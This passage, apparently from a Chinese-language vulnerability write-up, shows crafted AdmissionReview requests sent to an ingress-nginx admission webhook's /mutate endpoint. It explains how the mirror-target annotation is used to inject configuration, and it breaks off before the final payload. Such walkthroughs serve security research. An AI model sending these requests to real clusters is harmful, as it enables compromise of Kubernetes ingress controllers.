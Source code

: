 ```
               {
                  "host": "test.example.com",
                  "http": {
                     "paths": [
                        {
                           "path": "/",
                           "pathType": "Prefix",
                           "backend": {
                              "service": {
                                 "name": "kubernetes",
                                 "port": {
                                    "number": 443
                                 }
                              }
                           }
                        }
                     ]
                  }
               }
            ]
         },
         "status": {
            "loadBalancer": {}
         }
      },
      "oldObject": null,
      "dryRun": true,
      "options": {
         "kind": "CreateOptions",
         "apiVersion": "meta.k8s.io/v1"
      }
   }
}

```  
  
如果是正常的url会注入两个地方，导致闭合难以完成  
```
"nginx.ingress.kubernetes.io/mirror-target": "https://www.baidu.com/"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/36ssDibLXxGT7wwCMG6CZyJH5vhzjHS3xLBibfzdzjRZibNiaC412sQa1BsIdJcd8Mo6EVNpjsN3M3tJZXUa27Gziag/640?wx_fmt=png&from=appmsg "null")  
  
  
改成如下即可  
```
POST /mutate HTTP/1.1
Content-Type: application/json
Host: 127.0.0.1:8888

{
   "kind": "AdmissionReview",
   "apiVersion": "admission.k8s.io/v1",
   "request": {
      "uid": "test2",
      "kind": {
         "group": "networking.k8s.io",
         "version": "v1",
         "kind": "Ingress"
      },
      "resource": {
         "group": "networking.k8s.io",
         "version": "v1",
         "resource": "ingresses"
      },
```